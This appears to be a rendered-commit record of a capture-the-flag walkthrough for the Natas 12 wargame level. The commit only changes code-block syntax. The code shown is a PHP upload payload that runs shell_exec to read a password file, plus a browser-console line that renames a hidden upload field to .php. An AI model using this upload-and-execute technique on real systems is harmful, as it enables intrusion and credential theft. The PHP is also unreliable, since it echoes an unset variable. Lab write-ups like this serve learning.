

Before and after one commit to MCPA/MCPA.github.io, a Jekyll site: the page built from _posts/natas-overthewire/2015-09-28-natas12.markdown, in a window 1280 px wide. Shown: the whole page at 91% size, without its empty margins (3-1031 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1239 px from its top, so only the background shows below that.

Commit message:
Update 2015-09-28-natas12.markdown

````diff
--- a/_posts/natas-overthewire/2015-09-28-natas12.markdown
+++ b/_posts/natas-overthewire/2015-09-28-natas12.markdown
@@ -8,18 +8,18 @@ author: Nate
 
 ## Step 1: Write the "payload script"
 Create a php file to display the natas13 password
-```php
+{% highlight php linenos %}
 <?php
 $password = shell_exec("cat /etc/natas_webpass/natas13");
 echo "<pre>$output</pre>"
 ?>
-```
+{% endhighlight %}
 
 ## Step 2: Modify the hidden input field
 Open up your browser's javascript console.  In Chrome, CTRL+SHIFT+I will open up the Developer Tools. Change the value of the hidden input field "filename" so that it displays a php file extension instead of jpg.
-```javascript
+{% highlight javascript linenos %}
 $( 'input[name="filename"]').val("test.php")
-```
+{% endhighlight %}
 Make sure to hit enter so the code above is executed in your browser.
 
 ## Stage 3: Upload the payload and browse to it
````
